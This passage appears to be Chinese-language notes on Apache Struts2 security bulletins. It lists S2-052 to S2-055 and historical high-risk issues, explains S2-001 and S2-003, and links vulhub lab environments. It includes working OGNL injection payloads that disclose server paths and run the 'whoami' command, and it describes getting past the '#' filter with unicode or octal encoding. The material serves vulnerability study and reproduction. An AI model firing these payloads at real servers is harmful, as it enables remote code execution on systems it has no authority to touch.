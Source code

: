 - S2-052 - 使用带XStream处理程序的Struts REST插件处理XML时可能发生的远程执行代码攻击有效载荷
- S2-053 - 在Freemarker标记中使用非意图表达而不是字符串文字时可能发生的远程执行代码攻击
- S2-054 - 使用Struts REST插件时，可以使用精心制作的JSON请求执行DoS攻击
- S2- 055 - Jacks中的RCE漏洞在JSON库上

历史高危漏洞如下：`S2-001`、`S2-003`、`S2-005`、`S2-007`、`S2-008`，`S2-009`、`S2-012~S2-016`、`S2-019`、`S2-032`、`S2-033`、`S2-037`、`S2-045`、`S2-048`、`S2-052`、`S2-053`、`S2-055`。

##### S2-001

[S2-001环境复现](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-001)

该漏洞其实是因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value}
进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析。


**影响版本**

	 Struts 2.0.0 - Struts 2.0.8

** 测试 **

获取 tomcat 执行路径:


	%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

获取 Web 路径:

	%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

命令执行

	%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}


![](http://opmi2ydgh.bkt.clouddn.com//18-1-8/83653243.jpg)

![](http://opmi2ydgh.bkt.clouddn.com//18-1-8/44152038.jpg)


##### S2-003

**参考[Struts2和Webwork远程命令执行漏洞分析](http://security.ctocio.com.cn/100/11466600.shtml)、[Struts-S2-003漏洞利用（含环境搭建、含POC）](https://www.jianshu.com/p/c412c2961715)。**

**影响版本**

	Struts 2.0.0 - Struts 2.0.11.2
	2006/9/25    - 2008/6/23

**漏洞介绍**

Struts会将HTTP的每个参数名解析为ognl语句执行(可以理解为Java代码)。ognl表达式通过#来访问struts的对象，Struts框架通过过滤#字符防止安全问题，通过unicode编码(u0023)或8进制(43)即可绕过安全限制。
